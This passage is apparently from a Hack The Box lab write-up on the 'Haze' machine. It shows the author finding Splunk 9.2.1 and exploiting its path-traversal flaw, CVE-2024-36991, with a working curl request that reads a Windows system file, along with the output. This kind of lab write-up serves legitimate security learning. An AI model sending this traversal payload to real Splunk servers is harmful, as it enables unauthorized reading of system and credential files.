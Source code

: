 I added `dc01` and `dc01.haze.htb` to `/etc/hosts`.  The target can now be accessed by using the name.
```
fcoomans@kali:~/htb/haze$ grep haze /etc/hosts
10.10.11.61     dc01.haze.htb dc01
```

#### Splunk

##### Build 9.2.1

https://dc01.haze.htb:8089 was opened and revealed that server is running Splunk build 9.2.1.

![](images/Pasted%20image%2020250628081649.png)

##### CVE-2024-36991

A quick google search shows that this version is vulnerable to a path traversal attack (CVE-2024-36991): https://nvd.nist.gov/vuln/detail/cve-2024-36991

And this gives an example of how to test the path traversal: https://github.com/Mr-xn/CVE-2024-36991
This is tested by reading `C:\Windows\win.ini`.
```
fcoomans@kali:~/htb/haze$ curl --path-as-is "http://dc01.haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../Windows/win.ini"
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```
